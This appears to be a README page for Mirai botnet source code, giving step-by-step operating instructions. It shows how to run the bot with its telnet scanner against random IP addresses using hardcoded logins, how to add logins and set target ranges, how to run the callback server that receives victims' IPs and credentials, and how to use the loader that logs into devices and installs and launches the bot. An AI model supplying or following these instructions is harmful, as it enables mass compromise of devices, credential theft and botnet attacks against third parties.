 #Scanner and Loader Instructions

###Running the bot with scanning enabled
run the bot with the last argument set as `1`
  * arguments: `sudo ./debug/mirai.dbg <cnc ip> <local ip> <callback ip> <enable scanner 0/1>`
  * e.g. `sudo ./debug/mirai.dbg 10.0.0.1 10.0.0.2 10.0.0.1 1`
  * you can also edit [mirai/demo-bot.sh](mirai/demo-bot.sh) to enable the flag for you

using the debug, telnet version, the bot will generate random ip addresses and check if a telnet daemon is running on port 23. it will then use its hardcoded list of logins to try to gain access to the device. 
  * the list of logins is in `scanner_init()` in [mirai/bot/scanner.c](mirai/bot/scanner.c) (use the `enc` tool to convert strings into the required format if you want to add new logins)
  * the range of ip addresses it generates can be set here: `get_random_ip()` in [mirai/bot/scanner.c](mirai/bot/scanner.c)

###Running the callback server
if successful, the bot will then report the vulnerable ip address, along with its login credentials to the callback server. 
  * a simple callback server is found here: [mirai/tools/scanListen.go](mirai/tools/scanListen.go), it is built as `scanListen`
  * run it as: `sudo ./debug/scanListen`
  * it listens on port `48102`

###Running the single loader
the single loader takes a list of input ip addresses, login credentials, and a binary to transmit (usually the bot itself). it then logs into each device on the list and uses telnet to transmit the binary. finally, it then launches the binary with the specified arguments. 
  * it is found here: [mirai/tools/single_load.c](mirai/tools/single_load.c) and is built as `single_load`
  * run it as: `./debug/single_load <bind ip> <input file> <path to file_to_load> <argument> <threads> <connections> (debug mode)`
  * e.g. `./debug/single_load 10.0.0.1 ./debug/input.txt ./debug/mirai.dbg "10.0.0.1 10.0.0.2 10.0.0.1 0" 1 1 1` (having the last argument, of any value, means that it runs in debug mode)
